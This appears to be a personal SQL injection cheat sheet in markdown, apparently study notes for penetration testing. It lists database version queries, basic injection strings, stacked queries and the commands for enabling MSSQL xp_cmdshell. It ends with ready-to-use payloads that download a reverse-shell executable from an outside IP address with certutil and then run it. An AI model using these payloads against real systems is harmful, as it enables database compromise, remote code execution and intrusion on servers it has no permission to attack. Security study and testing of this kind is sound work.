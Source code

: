 
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi

Finding the SQL version:

Oracle           `SELECT banner FROM v$version   SELECT version FROM v$instance   `
Microsoft      `SELECT @@version`
PostgreSQL   `SELECT version()`
MySQL          `SELECT @@version`
SQLite           `SELECT sqlite_version()`

### Basics

`' OR 1=1 --` obs, not safe as all rows are returned/possibly updated

`something we know works' AND 1=1 --` safer alternative

### In-Band SQLi

### Union


### Stacked Queries

not available in all  systems

`' ; new query here; --`

# Stored procedures and functions

Procedures and functions within a  database  management system.

MSSQL has **xp_cmdshell** that might be used to execute os calls to get rce (remote code execution). (By using EXECUTE  / EXEC to run windows shell commands!!)

Disabled by default! Still common irl. New secure replacement fir example SSIS (SQL Server Integration Services).
Even when disabled, it can be enabled with an EXEC query if the user has the 'sysadmin' role or have the 'alter settings' server level permission.
`'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`

# Upload and execute exploit/rev shell

`'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.21.236:8000/win64-reverse.exe C:\Windows\Temp\reverse.exe'; --`
`'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`


